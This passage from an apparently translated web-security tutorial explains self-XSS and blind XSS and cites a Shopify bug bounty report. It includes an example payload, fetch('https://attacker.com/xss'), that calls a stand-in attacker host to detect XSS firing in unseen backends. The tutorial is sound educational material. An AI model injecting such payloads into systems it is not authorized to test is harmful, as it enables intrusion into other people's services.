The second interpretation is "XSS that can only attack oneself," which is usually referred to as self-XSS.

The XSS we discussed earlier was all about attacking others because others can see your payload. However, sometimes only you can see it.

Let's take an example. Suppose there is an XSS vulnerability in the phone number field, but the problem is that the phone number is personal information, so only you can see it on your own settings page. Others cannot see it. This kind of situation is called self-XSS, where only you can see the pop-up window of `alert()` when you open the settings page.

Although it may seem useless, when combined with other vulnerabilities, it is possible for others to see it.

## Blind XSS

Blind XSS means "XSS executed in a place and at a time you cannot see."

Let's give another example. Suppose there is an e-commerce platform, and after testing, you find that there are no issues in any field and no XSS vulnerabilities are found. However, the e-commerce platform has an internal backend where all order data can be viewed, and this backend has a vulnerability. They forgot to encode the name field, so XSS can be executed using the name field.

In this case, we usually wouldn't know during testing because I don't have access to the backend, and I may not even know it exists. To test this situation, you need to change the content of the XSS payload from `alert()` to a payload that sends a packet, such as `fetch('https://attacker.com/xss')`. This way, when the XSS is triggered in an invisible place, it can be observed from the server.

There are some ready-made services like [XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter-express) that provide a platform for you to conveniently observe whether XSS is triggered. If triggered, it will return the triggered URL and other information on the screen.

Speaking of actual cases, rioncool22 reported a vulnerability to Shopify in 2020: [Blind Stored XSS Via Staff Name](https://hackerone.com/reports/948929). They added an employee in Shopify's merchant backend and inserted an XSS payload in the name field. Although it did not trigger in the Shopify merchant backend, it triggered in Shopify's internal backend, and they received a reward of $3000.

## Conclusion

This article is a basic introduction to XSS, mainly focusing on the impact and causes of XSS, and also introducing the two categories of self-XSS and blind XSS.

This is just the beginning of XSS. In the next article, we will continue to explore and see more different aspects of XSS.

Before moving on to the next article, think about what payload you would use to trigger XSS if you find an injection point like `innerHTML = data`.
